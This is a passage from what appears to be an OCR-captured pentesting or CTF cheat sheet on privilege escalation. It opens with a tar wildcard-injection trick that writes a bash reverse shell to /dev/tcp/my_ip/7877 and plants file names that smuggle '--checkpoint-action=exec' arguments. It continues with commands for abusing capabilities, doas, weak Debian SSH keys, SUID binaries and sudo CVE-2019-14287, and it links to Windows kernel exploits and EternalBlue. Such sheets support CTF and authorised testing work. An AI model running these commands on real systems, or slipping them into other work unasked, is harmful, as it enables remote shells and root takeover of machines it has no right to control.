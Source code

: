 	- `echo "bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'" > shell.sh`
	- `chmod 777 shell.sh`
	- `echo "" > "--checkpoint-action=exec=sh shell.sh"`
	- `echo "" > --checkpoint=1`
	- `tar cf archive.tar *`
### Capability
- If the program has some special capability
	- https://man7.org/linux/man-pages/man7/capabilities.7.html
	- `CAP_SETUID`
- Can do with [GTFOBins](https://gtfobins.github.io/)
###  Doas
- `doas.conf`
	- if exist `permit nopass {user} as {root} cmd {binary}`
	- We can `doas {binary}` and it will run as root
### SSH `authorized_keys` Brute force
- `/var/backups/ssh/authorized_keys` or `~/.ssh/authorized_keys`
- https://gitbook.brainyou.stream/basic-linux/ssh-key-predictable-prng-authorized_keys-process
    - `git clone https://github.com/g0tmi1k/debian-ssh`
    - `tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2`
    - `cd debian-ssh/common_keys/dsa/1024/`
    - `grep -lr '{keys}'`
    - Find the file name without `.pub` is secret key
### Docker
- `/.dockerenv`
	- If exist, probably in docker 
- Notice mount point
- Mount data `/proc/1/mountinfo` , `/proc/self/mounts` (LFI can read)
### SOP
- Check `sudo -l`
	- What file we can run as super user 
- Check crontab
    - `cat /etc/crontab `
	- With LinEnum, LinPeas
	- PsPy check
- Check SUID / SGID
    - `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
    - `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
    - With [GTFOBins](https://gtfobins.github.io/)
- Check sudo version
	- [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)
		- sudo < 1.8.28
		- `sudo -u#-1 binary`
    - [CVE-2010-0426](https://github.com/t0kx/privesc-CVE-2010-0426) Sudo 1.6.x <= 1.6.9p21 and 1.7.x <= 1.7.2p4
        - sudoedit 
- Check $PATH / import library permission
	- Program Hijack
- Check capability
    - `getcap -r / 2>/dev/null`
	- Check if the program has some useful capability
- Check backup file
## Privilege - Windows
### XP
- [Windows XP SP0/SP1 Privilege Escalation to System](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
### Exploit
- https://github.com/SecWiki/windows-kernel-exploits
- [EternalBlue MS17-010](https://github.com/helviojunior/MS17-010)